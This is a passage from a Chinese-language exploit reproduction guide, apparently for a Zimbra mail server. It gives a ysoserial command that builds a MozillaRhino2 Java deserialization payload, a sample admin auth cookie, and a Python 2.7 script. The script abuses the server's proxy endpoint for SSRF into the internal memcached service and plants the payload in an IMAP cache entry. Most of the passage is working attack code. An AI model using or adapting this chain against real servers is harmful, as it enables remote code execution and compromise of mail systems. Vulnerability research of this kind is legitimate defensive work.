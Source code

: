 命令如下：

```
java -jar ysoserial.jar MozillaRhino2 "/bin/touch /tmp/test12345" > test.obj
```

#### (6)登录测试用户test1，获得Cookie

通过浏览器登录测试用户test1，取出登录Cookie，信息如下：

```
0_8ef6794c8d0d991add9ebd717c09e7f7b69b8d76_69641d11161a19166611181165102d161411172d146218192d626611662d1516641717156217621062651b6578701d11111a111611111718161114121117161b76761d111a101b747970651d161a7a696d6272611b7469641d191a1211171011181914121b76657271696f6e1d11111a182e162e105f47415f111115111b617172661d111a111b;
```

#### (7)发送Payload

这里需要使用Python2.7

**注：**

使用Python3需要考虑byte数组的类型转换

Python2.7的代码如下：

```
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

accountid = "11111111-1111-1111-1111-111111111111"
folderNo= 2
modseq = 1
uidvalidity = 1
cacheKey ="zmImap:{accountId}:{folderNo}:{modseq}:{uidvalidity}".format(accountId=accountid,folderNo=str(folderNo),modseq=str(modseq),uidvalidity=str(uidvalidity))
print(cacheKey)
with open(r"test.obj","rb") as f:
    payload = f.read()

set_command = b"set {cacheKey} 2048 3600 {payloadsize}\r\n".format(cacheKey=cacheKey,payloadsize=str(len(payload)))+payload+"\r\n"

headers = {
    "Cookie":"ZM_ADMIN_AUTH_TOKEN=0_8ef6794c8d0d991add9ebd717c09e7f7b69b8d76_69641d11161a19166611181165102d161411172d146218192d626611662d1516641717156217621062651b6578701d11111a111611111718161114121117161b76761d111a101b747970651d161a7a696d6272611b7469641d191a1211171011181914121b76657271696f6e1d11111a182e162e105f47415f111115111b617172661d111a111b",
    "host":"foo:7071"
}
r = requests.post("https://192.168.1.1/service/proxy?target=http://127.0.0.1:11211",data=set_command,headers=headers,verify=False)
print r.text
```
